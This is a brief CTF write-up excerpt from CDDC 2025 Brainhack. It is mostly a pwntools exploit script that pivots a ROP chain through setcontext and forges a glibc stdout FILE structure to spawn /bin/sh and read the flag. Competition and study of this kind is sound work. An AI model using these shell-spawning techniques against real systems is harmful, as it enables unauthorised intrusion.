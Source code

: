 ```py
chain += set_param(1, 0x8000)
chain += set_param(2, 0x200)
chain += exec()

rdi = l.address + 0x000000000002a3e5
ret = rdi + 1
system = l.sym.system
bin_sh = next(l.search(b'/bin/sh'))
setcontext = l.sym.setcontext + 61
pl = b'\0' * 0x68 + p64(setcontext)
pl = pl.ljust(0xa0, b'\0')
pl += p64(vm + 232 + 0x160)
pl += p64(ret)
pl = pl.ljust(0xe0, b'\0')
pl += p64(vm + 352)
pl += p64(rdi) + p64(bin_sh) + p64(ret) + p64(system)

stdout = l.sym['_IO_2_1_stdout_']
stdin = l.sym['_IO_2_1_stdin_']
fp = p64(0)
fp += p64(stdout + 131) * 7
fp += p64(stdout + 132)
fp += p64(0) * 4
fp += p64(stdin)
fp += p64(0x1) + p64(0xffffffffffffffff)
fp += p64(0x000000000000000) + p64(l.address + 0x21ba70)
fp += p64(0xffffffffffffffff) + p64(0)
fp += p64(vm + 352) # set _IO_wide_data of stdout in order to bypass _IO_wfile_overflow check
fp += p64(0) * 3 + p64(0x00000000ffffffff)
fp += p64(0) * 2
fp += p64(l.sym['_IO_wfile_jumps_mmap'] + 24 - 0x38)


pause()
r.send(chain + fp + pl)

pause()
r.send(p64(vm + 128))


sleep(0.5)
r.sendline(b'cat fl*')
r.interactive()
```

I am having a great time at `CDDC 2025 Brainhack`. Singapore is a hilarious country and this is by now the most brilliant CTF events I have ever joined. Many thanks to our sponsors, `Ensign Infosecurity` and our teams for having such a great memory!